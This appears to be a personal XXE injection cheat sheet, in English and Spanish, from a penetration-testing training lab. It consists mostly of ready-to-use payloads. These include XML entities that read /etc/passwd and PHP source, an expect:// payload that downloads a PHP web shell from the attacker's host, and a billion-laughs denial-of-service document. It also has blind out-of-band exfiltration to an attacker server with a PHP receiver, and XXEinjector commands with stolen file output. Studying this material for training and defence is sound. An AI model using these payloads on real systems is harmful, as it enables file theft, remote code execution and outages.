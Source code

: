 ## XML External Entity (XXE) Injection

```xml
<?xml version="1.0" encoding="UTF-8"?>
<email>
  <date>01-01-2022</date>
  <time>10:00 am UTC</time>
  <sender>john@inlanefreight.com</sender>
  <recipients>
    <to>HR@inlanefreight.com</to>
    <cc>
        <to>billing@inlanefreight.com</to>
        <to>payslips@inlanefreight.com</to>
    </cc>
  </recipients>
  <body>
  Hello,
      Kindly share with me the invoice for the payment made on January 1, 2022.
  Regards,
  John
  </body> 
</email>
```

### XML DTD

```xml
<!DOCTYPE email [
  <!ELEMENT email (date, time, sender, recipients, body)>
  <!ELEMENT recipients (to, cc?)>
  <!ELEMENT cc (to*)>
  <!ELEMENT date (#PCDATA)>
  <!ELEMENT time (#PCDATA)>
  <!ELEMENT sender (#PCDATA)>
  <!ELEMENT to  (#PCDATA)>
  <!ELEMENT body (#PCDATA)>
]>
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email SYSTEM "email.dtd">
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email SYSTEM "http://inlanefreight.com/email.dtd">
```

### XML Entities

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY company "Inlane Freight">
]>
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "http://localhost/company.txt">
  <!ENTITY signature SYSTEM "file:///var/www/html/signature.txt">
]>
```

## Local File Disclosure

```xml
<!DOCTYPE email [
  <!ENTITY company "Inlane Freight">
]>
```

### Reading Sensitive Files

```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "file:///etc/passwd">
]>
```

### Reading Source Code

```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
```

### Remote Code Execution with XXE

```c
$ echo '<?php system($_REQUEST["cmd"]);?>' > shell.php
$ sudo python3 -m http.server 80
```

```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
<root>
<name></name>
<tel></tel>
<email>&company;</email>
<message></message>
</root>
```

### Other XXE Attacks

```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY a0 "DOS" >
  <!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
  <!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
  <!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
  <!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
  <!ENTITY a5 "&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;">
  <!ENTITY a6 "&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;">
  <!ENTITY a7 "&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;">
  <!ENTITY a8 "&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;">
  <!ENTITY a9 "&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;">        
  <!ENTITY a10 "&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;">        
]>
<root>
<name></name>
<tel></tel>
<email>&a10;</email>
<message></message>
</root>
```

## Advanced File Disclosure

### Advanced Exfiltration with CDATA

```xml
<!DOCTYPE email [
  <!ENTITY begin "<![CDATA[">
  <!ENTITY file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY end "]]>">
  <!ENTITY joined "&begin;&file;&end;">
]>
```

```xml
<!ENTITY joined "%begin;%file;%end;">
```

```c
$ echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

```


```xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>
...
<email>&joined;</email> <!-- reference the &joined; entity to print the file content -->
```

## Blind Data Exfiltration

```c
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">
```

 Si, por ejemplo, el archivo que queremos leer tuviera el contenido de XXE_SAMPLE_DATA, entonces el parámetro file contendría sus datos codificados en base64 (WFhFX1NBTVBMRV9EQVRB). Cuando el XML intente hacer referencia al parámetro oob externo desde nuestra máquina, solicitará http://OUR_IP:8000/?content=WFhFX1NBTVBMRV9EQVRB. Finalmente, podemos decodificar la cadena WFhFX1NBTVBMRV9EQVRB para obtener el contenido del archivo. Incluso podemos escribir un sencillo script PHP que detecte automáticamente el contenido codificado del archivo, lo decodifique y lo envíe al terminal:

```php
<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>
```

Por lo tanto, primero escribiremos el código PHP anterior en index.php, y luego iniciaremos un servidor PHP en el puerto 8000, de la siguiente manera:

```c
$ vi index.php # here we write the above PHP code
$ php -S 0.0.0.0:8000
```

Ahora, para iniciar nuestro ataque, podemos utilizar un payload similar al que utilizamos en el ataque basado en errores, y simplemente añadir <root>&content;</root>, necesario para referenciar a nuestra entidad y hacer que envíe la petición a nuestra máquina con el contenido del fichero:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
```

### Automated OOB Exfiltration

- [XXEinjector](https://github.com/enjoiz/XXEinjector).

```shell-session
$ git clone https://github.com/enjoiz/XXEinjector.git

Cloning into 'XXEinjector'...
...SNIP...
```

```http
POST /blind/submitDetails.php HTTP/1.1
Host: 10.129.201.94
Content-Length: 169
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://10.129.201.94
Referer: http://10.129.201.94/blind/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
XXEINJECT
```

Ahora, podemos ejecutar la herramienta con las banderas --host/--httpport siendo nuestra IP y puerto, la bandera --file siendo el archivo que escribimos anteriormente, y la bandera --path siendo el archivo que queremos leer. También seleccionaremos las banderas --oob=http y --phpfilter para repetir el ataque OOB que hicimos anteriormente, de la siguiente manera:

```c
$ ruby XXEinjector.rb --host=[tun0 IP] --httpport=8000 --file=/tmp/xxe.req --path=/etc/passwd --oob=http --phpfilter

...SNIP...
[+] Sending request with malicious XML.
[+] Responding with XML for: /etc/passwd
[+] Retrieved data:
```

```c
$ cat Logs/10.129.201.94/etc/passwd.log 

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...SNIP..
```

